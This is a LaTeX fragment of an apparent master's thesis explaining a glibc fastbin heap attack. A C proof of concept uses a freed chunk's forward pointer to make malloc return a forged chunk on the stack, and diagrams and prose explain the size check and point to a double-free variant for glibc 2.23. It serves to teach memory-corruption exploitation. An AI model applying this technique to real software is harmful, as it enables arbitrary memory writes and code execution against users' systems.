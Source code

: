 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\fb{fast bins}
\newcommand*\mallocc{\lstinline{malloc}\xspace}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
struct forged_chunk {
size_t prev_size;
size_t size;
struct forged_chunk *fd;
struct forged_chunk *bck;
char buf[10];  // padding
};
a = malloc(10);  // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk; // At address 0x7ffc6de96690
chunk.size = 0x20;
data = (char *)&chunk.fd;
strcpy(data, "attacker's data");

free(a); // Put the fast chunk back into fastbin

// Modify 'forward' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;

// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);   // Will return 0x219c010
victim = malloc(10);  // Points to 0x7ffc6de966a0
\end{lstlisting}

In the first step, we allocate a memory \lstinline{a} with 10-Byte size, also, create our fake chunk with size 0x20. Chunk size is essential. It must fall in \fb{} chunks because \fb{} has a security check on chunk size while removing it from the list.
Now by call free(a), the real chunk is put back in the \fb{}. As we tell, we free up space, but the pointer still points to chunk memory location. We make the forward pointer of freed chunk \lstinline{a} to point to the forged chunk by accessing the pointer. The current layout of the heap is like below now:

\begin{lstlisting}[language=c,frame=tlrb]
head -> a -> forged chunk -> undefined (forward of the forged chunk be holding attacker's data)
\end{lstlisting}

In the following, by first allocated \lstinline{a} again, the heap manager returns the \lstinline{a} from the fast bin; following that, our forged chunk be at the head, so subsequent allocation return it instead of a real chunk.

\begin{lstlisting}[language=c,frame=tlrb]
head -> forged chunk -> undefined
head -> undefined [ forged chunk is returned to the victim ]
\end{lstlisting}

Take into consideration, another allocation on \fb{} could raise Segmentation faults.
In the next sample we use double-free vulnerabilities in \libc{-2.23}; the below code is just an extended version of the Double Free attack which we examined. The extended version tricks \mallocc{} to return a controller memory location on the stack instead of a real chunk of the heap.
\end{document}
